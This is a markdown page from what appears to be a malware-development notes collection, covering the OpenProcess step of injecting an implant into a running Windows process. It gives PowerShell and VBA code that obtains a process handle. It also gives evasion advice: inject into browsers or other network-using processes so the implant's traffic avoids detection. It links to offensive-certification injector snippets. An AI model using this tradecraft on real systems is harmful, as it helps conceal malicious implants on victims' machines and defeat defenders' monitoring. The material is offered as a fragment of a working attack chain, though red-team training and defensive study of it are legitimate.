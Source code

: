 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
  - implant-execution
  - process-injection
  - windows
---
```

# Inject Existing Process

## `OpenProcess`

> [!NOTE]
> `PROCESS_ALL_ACCESS` isn't required. Only `PROCESS_CREATE_PROCESS` is efficient.
> > [!TIP]
> > Only inject processes that connects to the internet such as, a **web browser** or any anything communicates through the network. Injecting the implant through a **text editor** for example, will raise the alarms due to lack of socket networks. However, when unexpected circumstances may occur then implement it as a last resort.

### PowerShell

```powershell
$Win32Functions = New-Object System.Object

$OpenProcessAddress = Get-ProcAddress kernel32.dll OpenProcess
$OpenProcessDelegate = Get-DelegateType @([UInt32], [Bool], [UInt32]) ([IntPtr])
$OpenProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($OpenProcessAddress, $OpenProcessDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name OpenProcess -Value $OpenProcess
```

### VBA

```vb
Const PROCESS_ALL_ACCESS = &H1F0FFF

Dim handle As LongPtr
Dim PID As Integer

PID = 4444
handle = OpenProcess(PROCESS_ALL_ACCESS, False, PID)
```

---
## References

### Tenouk

- [Tenouk: Processes and Threads - WinAPIs - Part 6](https://www.tenouk.com/ModuleU.html)

- [Tenouk: Processes and Threads - WinAPIs - Part 7](https://www.tenouk.com/ModuleU1.html)

- [Tenouk: Processes and Threads - WinAPIs - Part 10](https://www.tenouk.com/ModuleU4.html)

### Github

- [Chvancooten: Process Injector](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Injector)